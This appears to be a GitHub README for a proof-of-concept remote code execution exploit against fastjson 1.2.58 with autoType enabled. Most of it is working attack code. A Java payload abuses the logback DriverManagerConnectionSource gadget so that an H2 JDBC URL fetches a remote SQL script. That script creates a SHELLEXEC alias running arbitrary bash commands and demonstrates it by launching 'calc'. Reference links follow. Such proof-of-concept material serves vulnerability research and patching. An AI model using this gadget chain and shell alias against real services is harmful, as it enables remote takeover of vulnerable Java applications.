


# fastjson-1.2.58-rce
#### need: 
```
fastjson autoType is enabled
h2 database and some jar
```




### Download fastjson-1.2.58.jar
http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.58/fastjson-1.2.58.jar


### exp.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class exp {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}";
        JSONObject json = JSON.parseObject(payload);
        json.toJSONString();
    }
}
```

### inject.sql
`you can create an function on H2 that calls a java code`
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc')

```

## 参考链接

https://www.freebuf.com/vuls/209394.html

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html
